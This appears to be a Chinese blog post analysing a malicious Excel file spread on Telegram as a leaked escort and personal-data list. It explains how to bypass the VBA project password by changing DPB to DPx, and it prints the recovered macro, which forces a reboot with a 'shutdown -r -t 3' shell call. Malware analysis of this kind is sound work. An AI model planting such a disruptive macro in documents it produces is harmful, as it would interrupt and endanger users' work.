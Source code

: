 ```yaml
---
layout: default
title: Microsoft Excel VBAScript宏脚本病毒分析
subtitle: 破解Excel文档加密宏VBA方法
apptitle: 破解Excel文档加密宏VBA方法
category: xxx
description: 全国楼凤伴游.xls 下载
permalink: /:categories/:year/:month/:day/:title
author: 全栈CEO
date: 2019/09/29
tags:
    - xxx
---
```


昨天在Telegram上看到有人在大量发布倒卖个人隐私信息的消息“ `全国选取最美校花报名信息个人资料联系方式详细`xls”、“ `全国伴游网女性数据地区年龄身高电话微信QQ全有`xls”，上传到百度网盘、蓝奏云传播，通过8图片网生成二维码赚取灰色收入，每个压缩包解压密码**69**元（支付宝收款方为 `南京罗兰布艺专卖店`），再附加上诱惑性诈骗PUA约炮资料“ `零成本睡女大学生，只付房费技巧分享`”。

今天随手搜索到了这些文档，其中有一个是全国伴游楼凤.xls，百度网盘Download之，打开Excel文档后醒目的提示含有VBA不安全宏脚本，启用之，中毒矣！瞬间电脑上打开的程序都自动关闭了，弹窗提示1分钟之内注销电脑并重启。   


## VBA宏脚本分析


> 当打开此文档的人启用过VB宏后，再点击任意一个单元格就会执行这个注销电脑登陆并重启的shell脚本。并且此宏模块无法编辑和查看，Alt+F11快速进入宏控制台界面，提示需要输入密码，被小人加密过。


## VBA宏解密


> 如果是高版本的Excel格式不为xls的需要保存为 `xls`，再使用 **Notepad++**打开，查找 **`DPB`** 并修改为 **`DPx`** ，再保存使用Excel打开，此时会报错，忽略即可。再按快捷键 **`Alt+F11`** 打开VBA控制台，继续报错，忽略之。此时已经可以看到相关代码模块了，点击看到有Password处，修改密码。再到菜单 `工具` 里进入 `VBAProject属性` 进入 `保护` 选项卡界面，设置密码并勾选`查看时锁定工程`。等一会儿模块代码内容就加载出来了，可以看到这家伙只是用 `shell`脚本写了个关机重启的命令。   


#### VB宏脚本

```Shell
'Private Declare Function ExitWindowsEx Lib "user32" (ByVal uFlags As Long, ByVal dwReserved As Long) As Long
Public Sub msg()
'ExitWindowsEx ewx_reboot, 0
Shell "shutdown -r -t 3"
End Sub
```

![]({{site.cdn}}/img/vba/excel破解加密宏脚本VBA-DPB-dpx-QQ截图20190929205902.png)


![]({{site.cdn}}/img/vba/excel破解加密宏脚本VBA-QQ截图20190929205830.png)


![]({{site.cdn}}/img/vba/excel破解加密宏脚本VBA属性保护QQ截图20190929205734.png)


![]({{site.cdn}}/img/vba/excel破解加密宏脚本VBA属性保护设置新密码即可QQ截图20190929205801.png)


![]({{site.cdn}}/img/vba/全国楼凤excel单击单元格自动关机宏脚本QQ截图20190929205655.png)